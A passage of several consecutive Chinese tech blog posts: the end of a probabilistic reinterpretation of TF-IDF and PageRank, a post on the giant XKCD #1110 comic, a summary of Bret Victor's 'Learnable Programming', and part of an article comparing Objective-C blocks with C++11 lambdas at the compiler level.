为了分析“当查询串是q时，用户期望获得文档d的概率”问题，我首先建立了一种称为“盒子小球模型”的简化模型。盒子小球模型把词想象成各种不同颜色的小球，文档想象成装有若干小球的盒子，把“当查询串是q时，用户期望获得文档d的概率“转换为下面的问题：

**有n个盒子d[1], d[2], … d[n]，每个盒子中有若干不同颜色的小球，有人随机地选择了一个盒子，并从盒子中随机地拿出了一个颜色为w[j]的小球，那么这个小球来自于盒子d[i]的概率是多少？**

其实，这就是经典的条件概率问题P(d[i] | w[j])，采用贝叶斯推断将其转化为：

```
P(d[i] | w[j]) 
= P(d[i], w[j]) / P(w[j]) 
= P(d[i]) * P(w[j] | d[i]) / P(w[j]) 
```

我们注意到这个条件概率包括几个部分，P(d[i])是盒子d[i]被选中的先验概率，p(w[j])是w[j]颜色小球被选中的先验概率，P(w[j] | d[i])是在盒子d[i]中选中颜色w[j]小球的条件概率。

#### 文档先验概率P(d)与PageRank

首先，我们来看盒子d[i]被选中的先验概率P(d[i])是什么。P(d[i])的意义是：当用户什么也没有输入的时候，它可能对文档d[i]感兴趣的概率。在没有更多信息的情况下，我们可以认为每个盒子被选中的先验概率P(d[i])是相等的，都等于1 / m，其中m表示总文档数（总盒子数），这时P(d[i])作为公共系数可被忽略。不过，在实际应用中，我们通常可以根据其他知识获得各文档的先验概率，比如，学术文献和网页通常可以基于引用度模型计算其先验概率，这些经典论文和热门网页是多数人乐于见到的。说到这里，你可能已经发现，Google PageRank本质上就是这个先验概率P(d[i])乘以某个系数！所以，PageRank实际上也被纳入这个条件概率模型中来了，这就不难解释为什么在Google的排序算法中PageRank权重和tf-idf权重是一种乘积关系而不是加或者指数关系。另一方面，在理解了文档先验概率对整个搜索结果概率的影响后，当搜索引擎中针对PageRank出现各种假链接SEO时，我们可以不拘泥于基于链接引用模型的PageRank，只要是以网页先验概率为目标，不论是采用基于链接引用的PageRank，还是基于搜索结果点击数模型，或是其他模型，都是可以的。这就是“变通”，从原理上“通”了，就可以在方法上“变”。

#### 词的先验概率P(w)

下面我们来考察词w[j]的先验概率P(w[j])。P(w[j])的意义是：在整个文档集合中，w[j]被作为搜索关键词的概率，比如：“iPhone 5”，“青花瓷”这类词被用作搜索关键词的概率较高，而“的”，“什么”，“我们”这类高频词不大可能成为搜索关键词。那么，我们如何来定量计算P(w[j])呢？一种思路就是把w[j]在文档集中出现的频率作为其先验概率。不过，显然存在更好的方案：在大量的搜索查询中进行统计，统计方法得出P(w[j])的方法很接近P(w[j])本质的，不需要引入额外的假设。比如，一段时间内某搜索引擎的搜索总次数为10^10次，“公积金”这个词出现了100次，那么，我们可以认为先验概率P(“公积金”)就是100 / 10^10 = 10^-8。

#### 词代表文档主题的条件概率P(w | d)

最后，我们来看条件概率P(w[j] | d[i])。P(w[j] | d[i])的意义是在文档d[i]中，人们用关键词w[j]来搜索它的概率。那么，什么样的词是人们会用来搜索一篇文档的呢？多数情况下，是那些代表一篇文档主题的词。比如，有一篇新闻是关于iPhone 5发布会的，那么“iPhone5”， “发布会”，“库克”，“苹果”这些词基本上就构成了文章的主题；那么，反过来说，如果用户想搜索这篇关于iPhone 5发布会的新闻，他就有很大的可能通过这几个词来进行搜索。我们应当注意分辨P(w[j] | d[i])与P(w[j])的区别，后者可以通过大量的查询统计得来，而前者不能与后者直接划等号，因为前者的意义是w[j]代表d[i]主题的概率。如果非要引入统计方法，那么P(w[j] | d[i])对应的统计是：当搜索关键词是w[j]且搜索结果包含d[i]时，用户点击（满意）d[i]作为搜索结果的频率。比如，用“iPhone5 发布会”的搜索，在结果中有都10000次出现了网页x，其中，用户8000次点击了网页x，那么，可以认为有80%的概率网页x的主题是关于“iPhone5 发布会”的。

#### 词的信息量和idf

上面谈到了对P(w[j] | d[i])的计算的统计方法，但该方法有一定的局限，比如，要能进行统计首先需要文档出现在足够多的搜索结果中，需要时间和量的积累。除了统计方法外，我们可以考虑其他方法计算词w[j]代表文档d[i]主题的概率。可能有人立刻会想到要对文章进行语义分析提取关键词，给这些关键词高权重，给其他词低权重。这种想法有一定的合理性，但实现上涉及语义分析，没有成熟高效的方法。实际上，信息论为我们提供了另一条高效方案。上面谈到“的”，“什么”，“我们”这类高频词不会成为文档主题和搜索关键词的原因是它们不能提供足够的信息，而“iPhone 5”，“发布会”这样的词汇则信息量丰富。所谓信息是指对不确定性（熵）的减小程度，信息的单位是比特(bit)，信息量越大对于不确定性的减小程度越大。比如，外面可能在下雨也可能没有下雨，可能性空间大小为2，如果我们看一眼窗外，可能性空间就变成了1，那么“看见窗外在下雨”所提供的信息量就和熵的减小程度成正比，具体来讲等于log(2/1)=1。如果要用二进制编码是否下雨，需要1个bit，0代表没有下雨，1代表下雨。

但在很多场景下，各个可能性的概率并不相同，比如：欧洲杯16只球队都可能夺冠，赛前它们夺冠的先验概率并不相同，那么结果的不确定性程度实际上是小于log(16)=4。如果你没有看比赛，有人告诉你西班牙夺冠了，你可能会觉得很正常，但如果有人告诉你瑞士夺冠了，你通常会非常惊讶。这一现象的理论解释是，如果赛前西班牙夺冠概率是1/4，而瑞士夺冠概率是1/32，那么，“西班牙夺冠”的信息量为log(4)=2，即把不确定性减小为原来的1/4，而“瑞士夺冠”的信息量为log(32)=5，不确定性减小为原来的1/32，一下子接受比前者大了两倍以上的信息量，当然你会吃惊。

回到信息检索，比如，“2012美国大选”这个查询串包含了“2012”，“美国”和“大选”3个关键词，我们应该如何定量计算它们的信息量呢？根据信息的定义，词的信息量等于它对不确定性的缩小程度。如果文档总数为2^30，其中2^14篇文档出现了“美国”，那么“美国”这个词就把文档的不确定性从2^30缩小为2^14，它所包含的信息量为log(2^30/2^14)=16；而只有2^10篇文档出现了“大选”，那么大选的信息量就是log(2^30/2^10)=20，比“美国”多了4个bit。而“的”，“什么”，“我们”这些高频词对减小文档不确定性几乎没有帮助，因而信息量为0。相信你已经发现，上面idf(w)公式中的log(n / docs(w, D))实际上就是词w的信息量了。

如果我们考虑词的信息量对条件概率P(w[j] | d[i])的影响，假设“词w在文档中被选中的概率与其在文档中的出现频率和其信息量的乘积成正比”，那么上面的条件概率模型就变成：

```
P(d[i] | w[j]) 
= P(d[i], w[j]) / P(w[j]) 
= P(d[i]) * P(w[j] | d[i]) / P(w[j]) 
= P(d[i]) * (tf(w[j], d[i]) * idf(w[j] / sum { k = 1..size(d[i]), tf(w[k], d[i]) * idf(w[k]) }) / p(w[j]) 
= P(d[i]) * (tf-idf(w[j], d[i]) / sum { k = 1..size(d[i]), tf-idf(w[k], d[i]) }) / p(w[j]) 
= P(d[i]) * (tf-idf(w[j], d[i]) / tf-idf(d[i])) / p(w[j]) 
```

我们看到tf-idf已经被纳入框架内了，但是还多出文档先验概率P(d[i])，关键词先验概率P(w[j])和文档各词的总tf-idf(d[i])。普通搜索引擎是基于PageRank和tf-idf的，那么，根据这个概率模型，我们可以看出，它没有考虑文档总tf-idf(d[i])和关键词先验概率p(w[j])。如果考虑这两个因素，相信搜索效果会更好。

#### 多关键词

上面的条件概率模型主要是针对单个关键词的情况，下面我们进一步将其扩展到多关键词情况。我们知道，在tf-idf中，多个关键词的所产生的tf-idf值是一种叠加关系，那么这是否符合条件概率模型呢？答案是否定的。在两个关键字情况下，条件概率问题转化为“如果有人从一个盒子中同时摸出颜色w[x]的小球和颜色w[y]的小球，这两个小球来自于盒子d[i]的概率是多少？”。假设从盒子中摸出各个小球事件是相互独立的情况下，即

```
P(w[x], w[y]) 
= P(w[x]) * P(w[y]) P(w[x], w[y] | d[i]) 
= P(w[x] | d[i]) * P(w[y] | d[i]) 
```

我们可以推导出条件概率：

```
P(d[i] | w[x], w[y]) 
= P(d[i], w[x], w[y]) / P(w[x], w[y]) 
= P(d[i]) * P(w[x], w[y] | d[i]) / P(w[x], w[y]) 
= P(d[i]) * P(w[x] | d[i]) * P(w[y] | d[i]) / (P(w[x] * P(w[y])) 
= P(d[i]) * (tf-idf(w[x], d[i]) / tf-idf(d[i])) * ((tf-idf(w[y], d[i]) / tf-idf(d[i]))) / (p(w[x]) * P(w[y])) 
```

可见，概率模型所得出的各个关键词的tf-idf值之间是乘积关系，这是与tf-idf模型的加法关系是不同的。这一点可能与二者是否要求“文档必须包含所有查询关键词”的基本假设有关系。在文档不包含所有关键字的这种情况下，tf-idf模型可能得出一个非0的匹配度，但条件概率模型得出的概率肯定为0。不过，如果考虑一般查询关键词数量不多（3个以内），而大量文档都同时包含这些关键词，概率模型的乘积关系是比tf-idf模型的加法关系更有理论基础。从根本上讲，这是因为tf-idf的“匹配度”是一个模棱两可的概念，而条件概率有坚实的理论基础。

#### 总结

TF-IDF模型是搜索引擎中广泛使用的信息检索模型，但对于TF-IDF模型一直存在各种疑问。本文为信息检索问题一种基于条件概率的盒子小球模型，其核心思想是把“查询串q和文档d的匹配度问题”转化为“查询串q来自于文档d的条件概率问题”。它从概率的视角为信息检索问题定义了比TF-IDF模型所表达的匹配度更为清晰的目标。从概率模型中，我们看到查询串q来自于文档d的条件概率主要包含以下几个因素：1) 文档的先验概率P(d[i])，这与PageRank对应；2) 词w被作为搜索关键词的先验概率P(w)，这可以通过统计方法获得；3) 关键词w代表文档d主题，或以词w搜索文档d的概率，P(w | d)，除了统计方法，这可以通过tf-idf来计算。

# XKCD 神图“CLICK AND DRAG”

#####  [2012年10月16日 ](https://coolshell.cn/articles/8398.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [54 条评论](https://coolshell.cn/articles/8398.html#comments) 55,158 人阅读

[xkcd](http://xkcd.com/)对于经常浏览国外网站的朋友一定不会陌生。不过，还是先让我来介绍一下xkcd（[维基百科词条](https://en.wikipedia.org/wiki/Xkcd)）。这是一个漫画网站，它主要是发布一些很简单的随手画的漫画，它主要有四种体裁——浪漫、讽刺、数学 和 语言。也会经常出现一些和IT有关的漫画，比如下面这个漫画—— （懂Unix的人一眼就看懂了，不懂的怎么看也看不懂）


本质上来说，xkcd是一种Geek文化，里面的东西都非常的Geek和晦涩，讽刺很辛辣，但很多只有特定人群可以看得懂。而且表达的形式自由到天马行空，飘忽不定。


xkcd.com的网站创建者、所有的漫画的作者叫[Randall Munroe](https://en.wikipedia.org/wiki/Randall_Munroe)，他以前在 NASA工作，是那里的Roboticist——机器人专家，80后，同样，也是一个程序员。他还会画漫画。

xkcd是他于2005年创建的，他本来只是想把他大学里在记事本里画的漫画放到他的个人主页上，但结果却搞成了一个独立的以漫画为主的网站，他用他画的这些漫画做成T恤卖。为什么要取名叫xkcd，据Munroe说，这四个字母，没有任何意义，就是为了让人不能把他们通过拼成一个单词读出来。现在他全职在搞xkcd.com。他现在一周会更新三次漫画，分别在周一，周三，和周五。

到了2007年5月，xkcd上的漫画才被广泛转载。2008年10月， *[The New Yorker](https://en.wikipedia.org/wiki/The_New_Yorker)* 杂志对Munroe做了一个采访。

2010年3月，xkcd的书里的[谜底被解决了](http://forums.xkcd.com/viewtopic.php?p=2042913#p2042829)，Munroe在旧金山的金门大桥公园里给他的Fans发了255本限量版的书。

2012年4月1日愚人节，他的1037 号漫画(“Umwelt”) 会根据不同的IP，浏览器和地址显示不同的漫画。

2012年9月19号，xkcd的第1110号图问世了。

#### XKCD #1110 神图

这个图上面就是三格小漫画，一个小人拿着气球，还有两句耐人寻味的话。而**这三格漫画图的下面是一个风景图，取名 Click and Drag，也就是让你点住图片拖动。于是你就不能自拔了。**

我只所以在前面写了那么多东西，而不是把这个链接放在一开始，就是害怕你点了这个图，就再也不回来了。

好了，现在你可以点下面的链接开这个神图了 （你会发现这个图怎么也拖不完，无穷完尽的，所以，还请你先回来）

**[Click and Drag](http://www.xkcd.com/1110/)**

**但请你一定还要回来，本文后面还有精彩内容!**

**这个图一发布，几乎全世界的各大论坛都在疯狂的转载，很多媒体都关注这个漫画，各种技术社区如：reddit 在疯狂地讨论着这个图是怎么实现的，有多大？还有很多人再分析这个图里的内容，这个图里隐藏着很多很有意思的东西，《有2001太空漫游》，有《星球大战》，还有《超级马丽》等等。**

**几乎整个互联网都沸腾了，但好像中国社区对此事完全不知。**

网上出现了很多相关的blog和站点来分析这个图片。如果你在Google里搜xkcd 1110，你会发现很多内容。

#### 这个图有多大

- 这个图可以分解成 2592 个 2048 x 2048 像素的图。

- 但其中只有 225 个 2048 x 2048 的PNG 图片文件。而剩下的2337 基本上是纯黑的或是纯白的块。比如地下和天空。

- 整个图横向有81个2048 x 2048的图（左边有33个，右边有48个），纵向有32个 2048 x 2048个图（天上有13个，地下有19个）

- 老大当晚Release的全尺寸的大图（比现在你看到的还要大），不算空白处，图片共有60G的像素，而如果要算上整个图将会是T级别的像素。现在你看到版本已被做过优化，不算空白处，只有1G的像素，而算上全图有10G的像素。 (2048x2048x225 = 943,718,400 和 2048x2048x2592 = 10,871,635,968).

- 如果我们按比例来看的话，图中的32个象素对应于现实世界的5英尺，那么，这个图的宽有25920英尺（7.9公里），高有10240英尺（3.1公里）。

- 如果每个 2048 x 2048 的PNG图可以被打印成一个300 dpi的宣传画，那么，这个宣传画基本上是14.05米宽，5.55米高的图。现在的PNG被调整过了，只有72dpi左右。

有人说，创作这么这个大图很费时间。不过我觉得这对于Geek来说不是问题，因为这应该是可以通过矢量图的拼装来搞定。

[](https://coolshell.cn/wp-content/uploads/2012/10/xkcd1110.png)xkcd 1110全景缩略图（点击看大缩略图）

#### 看看技术宅们干了什么

下面我只记录了些不完全的技术宅们的因为这个画搞出来的东西。大家可以补充。

1）如果你用鼠标翻得不爽的话，你可以[看看这篇文章](http://www.potch.me/blog/press-and-hold.html)，在你的Chrome下按Ctrl+Shift+I，然后到Javascript控制台里，粘贴文中的代码，于是，你就可以用键盘的光标键移动并浏览整个世界了。

2）这是个全屏版的：[http://ares.aylett.co.uk/xkcd/](https://ares.aylett.co.uk/xkcd/)

3）如果你要下载所有的图，你可以使用这个[Python脚本](http://lebbeo.us/static/get-xkcd-1110.py)来完成（[转自这篇文章](http://lebbeo.us/2012/09/19/not-bbq-fetching-component-images-of-xkcd-comic-1110/)）

4）还有人把它搞成了像Google Map一样的东西。 你可以访问下面的链接：

> - http://xkcd-map.rent-a-geek.de/
> - [http://xkcdmap.webege.com/ ](http://xkcdmap.webege.com/)
>
> 5）看看Hacker News的讨论贴吧，什么都有了（http://news.ycombinator.com/item?id=4542367）

当然，对于这个图最强的一个站点如下，解释了所有和这个图有关信息，包括图中的各种文字和图案的意思。

http://www.explainxkcd.com/wiki/index.php?title=1110:_Click_and_Drag

看到这个图后，我陷入了深深地沉思，我在想。是什么样的动力能让人干出这样的事来？兴趣，还是为了好玩。还就是为了证明他能干一些让人拍案叫绝的东西？**这可能就是一种Geek精神吧。就是为了能做出让世人冿冿乐道的东西**。

（全文完）

# BRET VICTOR – LEARNABLE PROGRAMMING

#####  [2012年10月14日 ](https://coolshell.cn/articles/8387.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [33 条评论](https://coolshell.cn/articles/8387.html#comments) 27,537 人阅读

大家是否还记得之前酷壳向大家介绍的苹果设计师[Bret Victor](http://worrydream.com/)一种可视编程的视频《[Bret Victor – Inventing on Principle](https://coolshell.cn/articles/6775.html)》，最近，他写了一篇文章——[ Learnable Programming](http://worrydream.com/LearnableProgramming/)，写这篇文章的原因是因为“可汗学院(Khan Academy)”近期上线的一个[在线编程环境](https://www.khanacademy.org/cs)，根据他的演讲提供了一堆基于Javascript的“实时编程”的环境，因为这个环境是[引用了他的想法](http://ejohn.org/blog/introducing-khan-cs)，所以，他有必要出来喷两句。

这篇文章的开头就是一个问题——“*How do we get people to understand programming?*”，我们怎么让人们懂得编程？


然后，他说了两条——

- **编程是一种思考，而不是一种死记硬背的技能！**你学会了“for循环”并不是说你就学会了编程，这就好像你知道有铅笔这个东西，但是你对绘画还是什么不懂。（对于这一条，正好这两天我在微博上和人辩论“[基础算法面试题是否好](http://weibo.com/1401880315/yFQkJn8bC)”（还有[微博一](http://weibo.com/1401880315/yFOeyy00M)，[微博二](http://weibo.com/1401880315/z06Y0qMGf)），而且我以前也写过一篇《[为什么我反对纯算法面试](https://coolshell.cn/articles/8138.html)》，这里借用Bret的话再加强一下我的观点——“**我们一方面在骂中国的应试教育毁了学生，另一方面我们又在把我们的面试变成“考八股文”式的考试！  你会qsort有什么用？你只不过是会用一支高级铅笔而已罢了。**”）

- **人只有看得见，才能理解。**如果一个程序员不能看到他的程序在干什么，那么她就不能理解程序。（对于这一条，让我想到了Donald Knuth的话——“An algorithm must be seen to be believe!”）

所以，Bret 觉得编程软件的目标是——


- 支持并激发强大的思考。 To support and encourage powerful ways of thinking.
- 让程序员可以看得见程序的运行过程。To enable programmers to see and understand the execution of their programs

他说，可汗学院的“实时编程环境”并没有达到上面的任何一个目标。他还说用Javascript这样设计得很垃圾的语言根本不能支持强大的思考，而且还忽略了近十年来的成果，可汗学院这些东西完全是毫无价值的。

Bret认为，Alan Perlis的名言——“要学会编程，你必需得同时变成机器和程序”是错误的，这句被广为流传的错误名言，让我们把编程变成很难，并且掩盖了编程的艺术。人并不是一台机器，我们也不应该强迫自己变成那样。

接下来，他说明了一个编程系统应该有两个部分——

- **编程的“环境”，是其中一部分需要安装在电脑上的。**

- **编程的“语言”，是另一部分需要安装在程序员大脑里的。**

他随笔给出来了一些Design Principles——

对于“**编程环境**”，应该能让学习者干下面的事：

- **阅读程序词汇 read the vocabulary** *—* 这些单词意味着什么？是不是显而易见不用思考的？是不是很自然地被上下文解释了？

- **跟进流程 follow the flow** *—* 在什么时候会发生什么？流程的时间过程是不是看得见摸得着的？流程的粒度是否有意义？

- **看见状态 see the state** *—* 电脑在想些什么？你能不能看到电脑里的数据？并可以看到不同状态的比较？没有任何状态会隐藏？

- **通过交互来创造代码 create by reacting** *—* 从粗糙开始，然后开始雕琢程序。交互是否实时显示在屏幕上？有多少组件我可以用来做实时交互？

- **通过抽像来创造代码 create by abstracting** *—* 从一些hard code开始，然后开始抽象成变量*，*抽象成公式，抽象成函数。从一个开始作模板，然后做多个不同的东西。

对于“**编程语言**” 来说，它应该提供下面的事：

- **同一性和比方 identity and metaphor** *—* 我怎么把电脑的世界和我的世界联系起来? 推荐了一本书《*[“Mindstorms”](https://books.google.com/books?id=HhIEAgUfGHwC&printsec=frontcover)*》

- **分解 decomposition** *—* 怎么把我的想法分解成碎片？*how do I break down my thoughts into mind-sized pieces?*
- **重组 recomposition** *—* 怎么把这些碎片重组起来？ *how do I glue pieces together?*
- **可读性 readability** *—* 这一大堆程序单词是什么意思？*what do these words mean?*

然后，他说“The Features are not the point”，**我们很多时候会关注编程环境和编程语言提供的功能，这就好像我们在看一本书有哪些单词一样，有哪些单词不重要，重要的是我这些单词组合起来传达了一个什么信息**？**一个设计的好的系统并不是一堆功能，一个设计得好的编程环境是激发特定的思考方式**。所有的功能都是非常小心翼翼地组合起来为之服务。（不好意思，我又要插一句。我觉得这和我在《[抄袭，腾讯和产品](https://coolshell.cn/articles/7617.html)》一文中，我所理解的“什么是真正的产品”有点类似——真正的产品不是功能的组合，而是要表达的价值和对某一特定问题端到端的解决方案）

接下来，Bret用大量的示例告诉了大家上面所说的那几条是具体是什么。大家一定要去读一读！（我把这些东西总结果在上面的那些条目中了）

最后，Bret说了一下，他被问过很多次——这些漂亮的想法怎么应用到现实世界中？他说这个问题问的是对的，但是这些问题问的就好像是——“怎么能让一匹马从内燃机引擎受益”一样，其假设的改变是错误的。他回答到，更准确的是——“**Programming has to work like this**”，所以他说，他的这些东西不是一种“Training”，也不是一种“银弹”，只不过是拿开了眼罩。

**更新：**一楼回复的朋友给了一个中译版的链接：http://chengyichao.info/learnable-programming/

(全文完)

# C/C++语言中闭包的探究及比较

#####  [2012年09月20日 ](https://coolshell.cn/articles/8309.html) [Jason Lee](https://coolshell.cn/articles/author/jason) 评论 [76 条评论](https://coolshell.cn/articles/8309.html#comments) 60,294 人阅读

（**感谢投稿人 [@思禽饮霜](http://weibo.com/jasonmblog)** ）

这里主要讨论的是C语言的扩展特性[block](https://en.wikipedia.org/wiki/Blocks_(C_language_extension))。该特性是Apple为C、C++、Objective-C增加的扩展，让这些语言可以用类Lambda表达式的语法来创建[闭包](https://en.wikipedia.org/wiki/Closure_(computer_science))。前段时间，在对CoreData存取进行封装时（让开发人员可以更简洁快速地写相关代码），我对block机制有了进一步了解，觉得可以和C++ 11中的Lambda表达式相互印证，所以最近重新做了下整理，分享给大家。

目录


[0. 简单创建匿名函数](https://coolshell.cn/articles/8309.html#0_简单创建匿名函数)[1. 从语法上看如何捕获外部变量](https://coolshell.cn/articles/8309.html#1_从语法上看如何捕获外部变量)[2. 从语法上看如何修改外部变量](https://coolshell.cn/articles/8309.html#2_从语法上看如何修改外部变量)[3. 从实现上看如何捕获外部变量](https://coolshell.cn/articles/8309.html#3_从实现上看如何捕获外部变量)[4. 从实现上看如何修改外部变量（__block类型指示符）](https://coolshell.cn/articles/8309.html#4_从实现上看如何修改外部变量（_block类型指示符）)[5. 背后的内存管理动作](https://coolshell.cn/articles/8309.html#5_背后的内存管理动作)[5.1 拷贝block结构体](https://coolshell.cn/articles/8309.html#51_拷贝block结构体)[5.2 拷贝捕获的变量（__block变量）](https://coolshell.cn/articles/8309.html#52_拷贝捕获的变量（_block变量）)[5.3 __forwarding指针的作用](https://coolshell.cn/articles/8309.html#53_forwarding指针的作用)[参考资料：](https://coolshell.cn/articles/8309.html#参考资料：)

#### 0. 简单创建匿名函数

下面两段代码的作用都是创建匿名函数并调用，输出Hello, World语句。分别使用Objective-C和C++ 11：

```
^{ printf("Hello, World!\n"); } ();`
`[] { cout << "Hello, World" << endl; } ();
```

Lambda表达式的一个好处就是让开发人员可以在需要的时候临时创建函数，便捷。

在创建闭包（或者说Lambda函数）的语法上，Objective-C采用的是上尖号^，而C++ 11采用的是配对的方括号[]。

不过“匿名函数”一词是针对程序员而言的，编译器还是采取了一定的命名规则。

比如下面Objective-C代码中的3个block，

```
#import <Foundation/Foundation.h>

int (^maxBlk)(int , int) = ^(int m, int n){ return m > n ? m : n; };

int main(int argc, const char * argv[])
{
    ^{ printf("Hello, World!\n"); } ();

    int i = 1024;
    void (^blk)(void) = ^{ printf("%d\n", i); };
    blk();

    return 0;
}
```

会产生对应的3个函数：


```
__maxBlk_block_func_0
__main_block_func_0
__main_block_func_1
```

可见函数的命名规则为：__{$Scope}_block_func_{$index}。其中{$Scope}为block所在函数，如果{$Scope}为全局就取block本身的名称；{$index}表示该block在{$Scope}作用域内出现的顺序（第几个block）。

#### 1. 从语法上看如何捕获外部变量

在上面的代码中，已经看到“匿名函数”可以直接访问外围作用域的变量i：

```
int i = 1024;
void (^blk)(void) = ^{ printf("%d\n", i); };
blk();
```

当匿名函数和non-local变量结合起来，就形成了闭包（个人看法）。
这一段代码可以成功输出i的值。

我们把一样的逻辑搬到C++上：

```
int i = 1024;
auto func = [] { printf("%d\n", i); };
func();
```

GCC会输出：错误：‘i’未被捕获。可见在C++中无法直接捕获外围作用域的变量。

以BNF来表示Lambda表达式的上下文无关文法，存在：

```
lambda-expression : lambda-introducer lambda-parameter-declarationopt compound-statement
lambda-introducer : [ lambda-captureopt ]
```

因此，方括号中还可以加入一些选项：

```
[]        Capture nothing (or, a scorched earth strategy?)
[&]       Capture any referenced variable by reference
[=]       Capture any referenced variable by making a copy
[=, &foo] Capture any referenced variable by making a copy, but capture variable foo by reference
[bar]     Capture bar by making a copy; don't copy anything else
[this]    Capture the this pointer of the enclosing class
```

根据文法，对代码加以修改，使其能够成功运行：

```
bash-3.2# vi testLambda.cpp
bash-3.2# g++-4.7 -std=c++11 testLambda.cpp -o testLambda
bash-3.2# ./testLambda
1024
bash-3.2# cat testLambda.cpp
#include <iostream>

using  namespace std;

int main()
{
     int i = 1024;
     auto func = [=] { printf("%d\n", i); };
     func();

     return 0;
}
bash-3.2#
```

#### 2. 从语法上看如何修改外部变量

上面代码中使用了符号=，通过拷贝方式捕获了外部变量i。
但是如果尝试在Lambda表达式中修改变量i：

```
auto func = [=] { i = 0; printf("%d\n", i); };
```

会得到错误：

```
testLambda.cpp: 在 lambda 函数中:
testLambda.cpp:9:24: 错误：向只读变量‘i’赋值
```

可见*通过拷贝方式捕获的外部变量是只读的*。Python中也有一个类似的经典case，个人觉得有相通之处：

```
x = 10
def foo():
    print(x)
    x += 1
foo()
```

这段代码会抛出UnboundLocalError错误，原因可以参见[FAQ](https://docs.python.org/faq/programming.html#why-am-i-getting-an-unboundlocalerror-when-the-variable-has-a-value)。

在C++的闭包语法中，如果需要对外部变量的写权限，可以使用符号&，通过*引用方式*捕获：

```
int i = 1024;
auto func = [&] { i = 0; printf("%d\n", i); };
func();
```

反过来，将修改外部变量的逻辑放到Objective-C代码中：

```
int i = 1024;
void (^blk)(void) = ^{ i = 0; printf("%d\n", i); };
blk();
```

会得到如下错误：

```
main.m:14:29: error: variable is not assignable (missing __block type specifier)
    void (^blk)(void) = ^{ i++; printf("%d\n", i); };
                           ~^
1 error generated.
```

可见在block的语法中，默认捕获的外部变量也是只读的，如果要修改外部变量，需要使用__block类型指示符进行修饰。
为什么呢？请继续往下看 ：）

#### 3. 从实现上看如何捕获外部变量

闭包对于编程语言来说是一种语法糖，包括Block和Lambda，是为了方便程序员开发而引入的。因此，对Block特性的支持会落地在*编译器前端*，中间代码将会是C语言。

先看如下代码会产生怎样的中间代码。

```
int main(int argc, const char * argv[])
{
    int i = 1024;
    void (^blk)(void) = ^{ printf("%d\n", i); };
    blk();

    return 0;
}
```

首先是block结构体的实现：

```
#ifndef BLOCK_IMPL
#define BLOCK_IMPL
struct __block_impl {
    void *isa;
    int Flags;
    int Reserved;
    void *FuncPtr;
};
// 省略部分代码

#endif
```

第一个成员isa指针用来表示该结构体的类型，使其仍然处于Cocoa的对象体系中，类似Python对象系统中的PyObject。

第二、三个成员是标志位和保留位。

第四个成员是对应的“匿名函数”，在这个例子中对应函数：

```
static void __main_block_func_0(struct __main_block_impl_0 *__cself) {
    int i = __cself->i; // bound by copy
    printf("%d\n", i);
}
```

函数__main_block_func_0引入了参数__cself，为struct __main_block_impl_0 *类型，从参数名称就可以看出它的功能类似于C++中的this指针或者Objective-C的self。
而struct __main_block_impl_0的结构如下：

```
struct __main_block_impl_0 {
    struct __block_impl impl;
    struct __main_block_desc_0* Desc;
    int i;
    __main_block_impl_0(void *fp, struct __main_block_desc_0 *desc, int _i, int flags=0) : i(_i) {
        impl.isa = &_NSConcreteStackBlock;
        impl.Flags = flags;
        impl.FuncPtr = fp;
        Desc = desc;
    }
};
```

从__main_block_impl_0这个名称可以看出该结构体是为main函数中第零个block服务的，即示例代码中的blk；也可以猜到不同场景下的block对应的结构体不同，但本质上第一个成员一定是struct __block_impl impl，因为这个成员是block实现的基石。

结构体__main_block_impl_0又引入了一个新的结构体，也是中间代码里最后一个结构体：

```
static struct __main_block_desc_0 {
    unsigned long reserved;
    unsigned long Block_size;
} __main_block_desc_0_DATA = { 0, sizeof(struct __main_block_impl_0)};
```

可以看出，这个描述性质的结构体包含的价值信息就是struct __main_block_impl_0的大小。

最后剩下main函数对应的中间代码：

```
int main(int argc, const char * argv[])
{
    int i = 1024;
    void (*blk)(void) = (void (*)(void))&__main_block_impl_0((void *)__main_block_func_0, &__main_block_desc_0_DATA, i);
    ((void (*)(struct __block_impl *))((struct __block_impl *)blk)->FuncPtr)((struct __block_impl *)blk);

    return 0;
}
```

从main函数对应的中间代码可以看出执行block的本质就是以block结构体自身作为__cself参数，这里对应__main_block_impl_0，通过结构体成员FuncPtr函数指针调用对应的函数，这里对应__main_block_func_0。

其中，局部变量i是以值传递的方式拷贝一份，作为__main_block_impl_0的构造函数的参数，并以初始化列表的形式赋值给其成员变量i。所以，基于这样的实现，不允许直接修改外部变量是合理的——因为按值传递根本改不到外部变量。

#### 4. 从实现上看如何修改外部变量（__block类型指示符）

如果想要修改外部变量，则需要用__block来修饰：

```
int main(int argc, const char * argv[])
{
    __block int i = 1024;
    void (^blk)(void) = ^{ i = 0; printf("%d\n", i); };
    blk();

    return 0;
}
```

此时再看中间代码，发现多了一个结构体：

```
struct __Block_byref_i_0 {
    void *__isa;
    __Block_byref_i_0 *__forwarding;
    int __flags;
    int __size;
    int i;
};
```

于是，用__block修饰的int变量i化身为__Block_byref_i_0结构体的最后一个成员变量。

代码中blk对应的结构体也发生了变化：

```
struct __main_block_impl_0 {
    struct __block_impl impl;
    struct __main_block_desc_0* Desc;
    __Block_byref_i_0 *i; // by ref
    __main_block_impl_0(void *fp, struct__main_block_desc_0 *desc, __Block_byref_i_0 *_i, int flags=0) : i(_i->__forwarding) {
        impl.isa = &_NSConcreteStackBlock;
        impl.Flags = flags;
        impl.FuncPtr = fp;
        Desc = desc;
    }
};
```

__main_block_impl_0发生的变化就是int类型的成员变量i换成了__Block_byref_i_0 *类型，从名称可以看出现在要通过引用方式来捕获了。

对应的函数也不同了：

```
static void __main_block_func_0(struct  __main_block_impl_0 *__cself) {
    __Block_byref_i_0 *i = __cself->i; // bound by ref
    (i->__forwarding->i) = 0; // 看起来很厉害的样子
    printf("%d\n", (i->__forwarding->i));
}
```

main函数也有了变动：

```
int main(int argc, const char * argv[])
{
    __block __Block_byref_i_0 i = {(void*)0,(__Block_byref_i_0 *)&i, 0, sizeof(__Block_byref_i_0), 1024};
    void (*blk)(void) = (void (*)(void))&__main_block_impl_0((void *)__main_block_func_0, &__main_block_desc_0_DATA, (struct __Block_byref_i_0 *)&i, 570425344);
    ((void (*)(struct __block_impl *))((struct __block_impl *)blk)->FuncPtr)((struct __block_impl *)blk);

    return 0;
}
```

前两行代码创建了两个关键结构体，特地高亮显示。

这里没有看__main_block_desc_0发生的变化，*放到后面讨论*。

